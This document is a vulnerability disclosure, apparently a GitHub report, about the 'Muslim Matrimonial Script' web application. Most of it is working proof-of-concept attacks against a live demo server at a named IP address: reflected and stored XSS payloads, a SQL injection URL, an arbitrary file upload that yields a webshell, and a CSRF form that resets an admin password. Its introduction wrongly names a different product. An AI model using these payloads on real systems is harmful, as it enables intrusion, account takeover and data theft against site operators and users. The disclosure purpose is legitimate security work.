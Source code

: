 ### Muslim Matrimonial Script- the lastest version - SQL Injection/Stored-XSS/Reflect-XSS/Arbitrary-File-Uploading/CSRF

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

##### XSS1

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/event_edit.php?edit_id=17%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss1.png)

##### XSS2

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/slider_edit.php?edit_id=1%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss2.png)

##### XSS3

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/state_view.php?cou_id=%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss3.png)

##### XSS4

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/caste_view.php?comm_id=46%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss4.png)


##### Stored-XSS


```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/event_add.php
```

POST parameters:

```
------WebKitFormBoundarypSOX4YzB8lLca9QI
Content-Disposition: form-data; name="event_title"

test'"><svg/onload=alert(/xss/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/sxss.png)


#### SQL Injection:

##### sqli

The original parameter:
```
http://74.124.215.220/~projclient/client/muslim-matrimony/view-rofile.php?mem_id=NDk=
```

Base64Decode the parameter, and add payload:

```
http://74.124.215.220/~projclient/client/muslim-matrimony/view-rofile.php?mem_id=49' AND 6882=6882 AND 'qpug'='qpug
```

Then we can use the tamper script to attack the weak link.


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/sqli.png)


#### Arbitrary-File-Uploading

There is an arbitrary-file-uploading, we can upload any type files with evil content.

Weak url:
```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/mydetails_edit.php?u_id=xxx
```

Post parameter:
```
------WebKitFormBoundary6LBE6fQ0BdnKYrgo
Content-Disposition: form-data; name="user_photo"; filename="xxx.xxx"
Content-Type: application/octet-stream

evil-content
```



Then we'll get a evil file here:

```
http://74.124.215.220/~projclient/client/muslim-matrimony/uploads/xxx.xxx
```

Run command in the webshell:
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/upload1.png)

Operate the folders and files through the webshell:
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/upload2.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even change the password or insert evil content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://74.124.215.220/~projclient/client/muslim-matrimony/admin/subadmin_edit.php?edit_id=9999" method="POST">
      <input type="hidden" name="sub&#95;id" value="9999" />
      <input type="hidden" name="name" value="test123" />
      <input type="hidden" name="email" value="parguinet&#64;gmail&#46;com" />
      <input type="hidden" name="pass" value="666" />
      <input type="hidden" name="cpass" value="666" />
      <input type="hidden" name="submit" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
  </body>


```

This vulnerability does not need evil attacker to login into the user panel.

